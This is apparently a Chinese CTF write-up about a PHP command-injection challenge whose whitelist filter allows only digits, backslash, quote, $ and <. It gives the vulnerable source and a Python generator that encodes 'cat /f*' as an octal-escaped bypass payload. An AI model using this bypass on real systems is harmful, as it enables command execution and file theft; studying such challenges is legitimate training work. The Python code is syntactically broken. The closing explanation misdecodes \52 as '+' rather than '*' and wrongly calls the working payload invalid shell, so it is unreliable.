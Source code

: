 ```
<?php

highlight_file(__FILE__);

function waf($cmd){

  $white_list = ['0','1','2','3','4','5','6','7','8','9','\\','\'','$','<']; 

  $cmd_char = str_split($cmd);

  foreach($cmd_char as $char){

​    if (!in_array($char, $white_list)){

​      die("really ez?");

​    }

  }

  return $cmd;

}

$cmd=waf($_GET["cmd"]);

system($cmd);

really ez?
```

脚本：

```python
n = dict() 

n[0] = '0' 

n[1] = '1' 

n[2] = '2' 

n[3] = '3' 

n[4] = '4' 

n[5] = '5' 

n[6] = '6' 

n[7] = '7' //相当于字典

f='' 

def str_to_oct(cmd): #命令转换成八进制字符串 

s = "" 

for t in cmd: 

o = ('%s' % (oct(ord(t))))[2:] //将转换后的前缀0o去掉，例12-->0o14

s+='\\'+o //’\\’是8进制转义的意思

return s 

def build(cmd): #八进制字符串转换成字符 

payload = "$0<<<$0\<\<\<\$\\\'" 

s = str_to_oct(cmd).split('\\') 

for _ in s[1:]: 

payload+="\\\\" 

for i in _: 

payload+=n[int(i)] 

return payload+'\\\'' 

payload="cat /f*" 

print(build(payload))

###  
```

 

在Linux shell中，这个字符串 

$0<<<$0\<\<\<\$\'\\143\\141\\164\\40\\57\\146\\52\' 包含了多种元素，其中一些可能是转义序列，而另一些可能是字面量字符。让我们一步步地分析它：

\1. $0：在shell脚本中，这通常代表脚本自己的名字。

\2. <<<：这是Bash中的here string操作符，它用于将紧随其后的字符串作为输入传递给一个命令。然而，在您的字符串中，<<<后面并没有跟着命令，所以这可能是无效的。

\3. \<：这不是一个标准的转义序列。在正则表达式中，\ 用于转义特殊字符，但在shell中，通常不需要转义<。

\4. $\：$ 是变量前缀，而 \ 通常用作转义字符。但 $\ 这样的组合通常不是有效的shell语法。

\5. \'\\143\\141\\164\\40\\57\\146\\52\'：这里的 \' 开始了一个单引号字符串，然后 \\ 开始了一系列的八进制转义序列。 

\1. \\143 转换为八进制数143，对应的ASCII字符是 'c'

\2. \\141 转换为八进制数141，对应的ASCII字符是 'a'

\3. \\164 转换为八进制数164，对应的ASCII字符是 't'

\4. \\40 转换为八进制数40，对应的ASCII字符是 ' ' (空格)

\5. \\57 转换为八进制数57，对应的ASCII字符是 '/'

\6. \\146 转换为八进制数146，对应的ASCII字符是 'f'

\7. \\52 转换为八进制数52，对应的ASCII字符是 '+'

所以，整个字符串 $0<<<$0\<\<\<\$\'\\143\\141\\164\\40\\57\\146\\52\' 在shell中解析后，如果 $0 被替换为脚本名（例如 script.sh），那么该字符串会变为类似 script.sh<<<script.sh\<\<\<$\'cat /f+\' 的形式。但请注意，这仍然不是一个有效的shell命令，因为 <<< 后面没有跟随有效的命令，并且 \< 和 $\ 也不是有效的shell语法。

为什么这样做取决于原始意图。如果这是从某个脚本或配置文件中摘录出来的，可能是为了某种特定的目的（例如，混淆、编码或尝试执行某些操作）。然而，从语法上看，它并不是一个有效的shell命令或表达式。如果您尝试在shell中执行它，您可能会遇到错误。

 